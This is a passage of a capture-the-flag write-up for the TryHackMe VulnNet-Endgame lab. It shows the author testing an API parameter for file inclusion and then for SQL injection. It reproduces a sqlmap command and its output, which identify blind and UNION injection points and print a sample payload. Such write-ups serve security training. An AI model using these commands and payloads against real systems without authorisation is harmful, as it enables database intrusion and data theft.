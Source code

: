 When I send a **GET request to `blog.vulnnet.thm/post1.php`, it also uses an API to fetch a blog.**

**http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/VulnNet-Endgame/images/a11.png)

Hmm... Let's test for Local File Inclusion?

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/VulnNet-Endgame/images/a12.png)

Nope. 

How about **SQL injection**?

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# sqlmap -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" -p blog --dbs                             
[...]
[00:40:33] [INFO] GET parameter 'blog' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[00:40:40] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[...]
[00:43:35] [INFO] GET parameter 'blog' appears to be 'MySQL >= 5.0.12 OR time-based blind (SLEEP)' injectable
[...]
[00:44:02] [INFO] GET parameter 'blog' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'blog' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 79 HTTP(s) requests:
---
Parameter: blog (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: blog=1 AND 9729=9729

```
